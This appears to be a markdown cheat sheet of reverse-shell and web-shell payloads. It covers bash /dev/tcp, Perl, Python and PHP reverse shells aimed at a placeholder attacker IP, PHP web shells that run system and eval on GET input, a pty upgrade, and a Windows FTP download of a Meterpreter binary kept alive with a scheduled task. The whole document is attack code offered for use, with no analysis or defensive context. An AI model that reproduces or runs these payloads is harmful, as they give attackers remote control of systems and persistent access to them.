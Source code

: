 ## netcat shell
nc -nlvp 443

## bash shell
bash -i >& /dev/tcp/**[your_ip_addr]**/443 0>&1

bash -i >& /dev/tcp/**[your_ip_addr]**/4444 0>&1

## perl reverse shell
perl -e 'use Socket;$i="**[your_ip_addr]**";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

## python reverse shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("**[your_ip_addr]**",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

## php reverse shell (php code)
set_time_limit (0);$VERSION = "1.0";$ip = '**[your_ip_addr]**'; $port = 443; $chunk_size = 1400;$write_a = null;$error_a = null;$shell = 'uname -a; w; id; /bin/sh -i';$daemon = 0;$debug = 0;chdir("/");umask(0);$sock = fsockopen($ip, $port, $errno, $errstr, 30);$descriptorspec = array(0 => array("pipe", "r"),1 => array("pipe", "w"),2 => array("pipe", "w"));$process = proc_open($shell, $descriptorspec, $pipes);
stream_set_blocking($pipes[0], 0);stream_set_blocking($pipes[1], 0);stream_set_blocking($pipes[2], 0);stream_set_blocking($sock, 0);while (1) {$read_a = array($sock, $pipes[1], $pipes[2]);$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);if (in_array($sock, $read_a)) {    $input = fread($sock, $chunk_size); fwrite($pipes[0], $input);}    if (in_array($pipes[1], $read_a)) {    $input = fread($pipes[1], $chunk_size);    fwrite($sock, $input);    }if (in_array($pipes[2], $read_a)) { $input = fread($pipes[2], $chunk_size); fwrite($sock, $input);} }fclose($sock); fclose($pipes[0]); fclose($pipes[1]); fclose($pipes[2]); proc_close($process);

## simple cmd shell
<?php system($_GET["cmd"]);?>

## php cmd shell
<?php eval($_GET["cmd"]);?>

## php reverse shell (bash)
<?php system("bash -i >& /dev/tcp/**[your_ip_addr]**/443 0>&1"); ?>
<?php system("bash -i >& /dev/tcp/**[your_ip_addr]**/4444 0>&1"); ?>

## spawn bash from python
python -c 'import pty;pty.spawn("/bin/bash")'

## meterpreter
echo open **[your_ip_addr]** > ftp &echo user alan password >> ftp &echo binary >> ftp &echo get met.exe >> ftp &echo bye >> ftp &ftp -n -v -s:ftp &del ftp

SCHTASKS /Create /SC MINUTE /MO 5 /TN met /TR c:\meter.exe /RU alan /RP password1!
schtasks /delete /tn met /f
